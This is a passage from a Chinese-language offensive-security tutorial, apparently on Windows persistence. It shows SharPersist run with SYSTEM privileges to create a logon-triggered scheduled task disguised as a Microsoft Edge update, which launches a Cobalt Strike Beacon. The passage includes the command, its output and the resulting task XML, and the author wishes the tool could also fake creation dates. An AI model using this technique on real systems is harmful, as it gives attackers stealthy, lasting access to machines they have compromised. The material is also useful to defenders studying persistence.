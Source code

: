 重新登录后是以当前用户高完整性级别运行 Beacon。

![任务计划伪装结果运行展示.png](assets/1708583418-b590872b656b8096c253a78a85a8abd3.png)

#### 2.1.3 自动化创建任务

[SharPersist](https://github.com/mandiant/SharPersist/tree/master) 使用 SYSTEM 权限，自动化创建 MicrosoftEdgeUpdateTaskMachineRelease 任务，触发器选择 logon 登录触发，执行命令 C:\\Users\\123\\Desktop\\beacon.exe。

```bash
PS C:\Users\123\desktop> .\SharPersist.exe -t schtask -m add -o logon -n MicrosoftEdgeUpdateTaskMachineRelease -c C:\Users\123\Desktop\beacon.exe

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: Scheduled Task Name: MicrosoftEdgeUpdateTaskMachineRelease
[*] INFO: Option: logon


[+] SUCCESS: Scheduled task added
```

可以看到以 `<UserId>` SYSTEM 权限运行命令，存在创建时间 `<Date>` 2023/04/27 10:05:36，注释和任务名一样。并没想象中好用，如果可以把创建时间和注释选项加上就更好了。

```xml
PS C:\Users\123\desktop> SCHTASKS /Query /TN MicrosoftEdgeUpdateTaskMachineRelease /XML
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2023-04-27T10:05:36.646+08:00</Date>
    <Description>MicrosoftEdgeUpdateTaskMachineRelease</Description>
    <URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <Duration>PT10M</Duration>
      <WaitTimeout>PT1H</WaitTimeout>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
  </Settings>
  <Triggers>
    <LogonTrigger />
  </Triggers>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Users\123\Desktop\beacon.exe</Command>
    </Exec>
  </Actions>
```